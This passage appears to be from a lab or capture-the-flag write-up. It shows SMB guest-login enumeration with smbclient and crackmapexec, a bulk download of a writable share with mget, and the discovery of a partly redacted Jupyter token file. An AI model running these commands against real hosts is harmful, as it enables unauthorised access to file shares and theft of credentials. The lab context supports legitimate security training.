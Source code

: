 ```bash
```
# Port 445 (SMB)

In the nmap output we can see a port 445 for smb so i tried the Guest login:
```bash
smbclient -L \\\\10.10.134.105\\ -U 'Guest' -p ''
```
output:
```bash
Password for [WORKGROUP\Guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        datasci-team    Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.134.105 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
we can actually login and see some shares available.
<br>

With crackmap i checked which share i had access to:
```bash
crackmapexec smb 10.10.134.105 -u 'Guest' -p '' --shares
```
output:
```bash
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [*] Windows 10.0 Build 17763 x64 (name:DEV-DATASCI-JUP) (domain:DEV-DATASCI-JUP) (signing:False) (SMBv1:False)
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [+] DEV-DATASCI-JUP\Guest: 
SMB         10.10.134.105   445    DEV-DATASCI-JUP  [+] Enumerated shares
SMB         10.10.134.105   445    DEV-DATASCI-JUP  Share           Permissions     Remark
SMB         10.10.134.105   445    DEV-DATASCI-JUP  -----           -----------     ------
SMB         10.10.134.105   445    DEV-DATASCI-JUP  ADMIN$                          Remote Admin
SMB         10.10.134.105   445    DEV-DATASCI-JUP  C$                              Default share
SMB         10.10.134.105   445    DEV-DATASCI-JUP  datasci-team    READ,WRITE      
SMB         10.10.134.105   445    DEV-DATASCI-JUP  IPC$            READ            Remote IPC
```

We can see that we have access to both either _READ_ and _WRITE_ on _datasci-team_ share.
<br>

So i jump inside the shares and i dowloaded all the files from it:
```bash
smbclient \\\\10.10.134.105\\datasci-team -u 'Guest'
```
to download recursively i typed this(inside the smb interactive shell):
```smb
mget *
```
among the files that i downloaded i found a strange file named _jupyter-token.txt_ so i esaminated its content:
```bash
cat jupyter-token.txt
```
output:
```
067470c5[REDACTED]d78a
```
